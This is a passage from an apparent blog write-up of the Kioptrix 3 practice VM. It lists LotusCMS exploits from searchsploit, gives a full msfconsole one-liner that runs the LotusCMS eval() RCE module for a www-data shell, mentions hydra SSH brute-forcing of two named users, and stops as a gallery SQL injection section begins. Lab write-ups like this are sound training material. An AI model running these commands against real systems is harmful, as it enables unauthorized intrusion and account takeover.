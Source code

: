 and clicking *here* redirects to a gallery:

<img src="/img/blog/kioptrix3/kioptrix3-03.png">

***

# Exploitation
Wait, really? Why was the recon so fast? No dirbuster, nikto, spidering? There are still many possible reconnaissance steps I could do, however to keep my writeup short I'll focus on *(hopefully)* two main exploitation methods via `LotusCMS` and the `gallery`.

***

## Shell - LotusCMS
Fortunately enough, I encountered LotusCMS vulnerability once already and therefore getting a reverse shell was easy. LotusCMS is seeded with various vulnerabilites such as an **RCE** or an **LFI**. More can be found by querying searchsploit:

```console
root@EdgeOfNight:~# searchsploit LotusCMS
------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                     |  Path
                                                                   | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------------- --------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)      | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                          | php/webapps/16982.txt
------------------------------------------------------------------- ----------------------------------
```      

Look! A metasploit RCE module. I usually avoid metasploit modules (and you should too), however I'll use it just once for simplicity. `msfconsole -x "use exploit/multi/http/lcms_php_exec; set URI /; set RHOST kioptrix3.com;run"` yields a www-data shell.

> msfconsole -x combines all commands into one
   
After that just view **/home/** directory which shows 2 users - **dreg** and **loneferret**, fire up hydra and brute both of their SSH accounts! Users done. Sorry for not going into much detail when describing the steps! I find this way of getting an user rather stupid, which led to my quick explanation. If you despise using msfconsole, there is a [tool](https://github.com/Hood3dRob1n/LotusCMS-Exploit) on github which can do the same thing.

***

## Shell - SQL injection inside /gallery/

Visit the previously mentioned webpage. Inside **Libgoat Press Room** gallery allows sorting of photos by IDs which possibly opens up an SQL injection attack.       
